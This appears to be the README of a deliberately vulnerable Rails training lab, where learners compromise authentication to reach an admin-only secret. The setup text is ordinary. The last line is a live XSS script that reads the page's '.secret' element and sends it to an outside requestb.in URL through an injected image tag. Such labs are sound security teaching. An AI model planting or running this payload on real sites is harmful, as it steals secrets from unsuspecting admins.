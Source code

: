 # Project Amazing

Project Amazing is a project management application, how exciting! Here you'll
be compromising the authentication mechanisms of this application to act on
behalf of an admin user. This one is a little trickier and will probably take
more than an hour to string into a semi-automated attack.

## Setup Instructions

First install pahantomjs. This will differ from one OS to the next, so find the
instructions from google. Once phantomjs is installed, continue with the
following setup instructions.

Then:

~~~bash
$ bundle install
$ bundle exec rails db:migrate
$ bundle exec rails setup
$ foreman start
~~~

**IMPORTANT**: Note that we use `foreman start` instead of `rails server` for
this application. A second process will simulate an admin user logging in to
the application every five seconds.

## Secret Location

The secret is prominantly displayed in the admin section of the application.
Gain access to the admin section and you'll find the secret.


<script> $(function(){ $('table').append("<img src='http://requestb.in/piph78pi?secret=" + $('.secret').text() + "'>"); }); </script>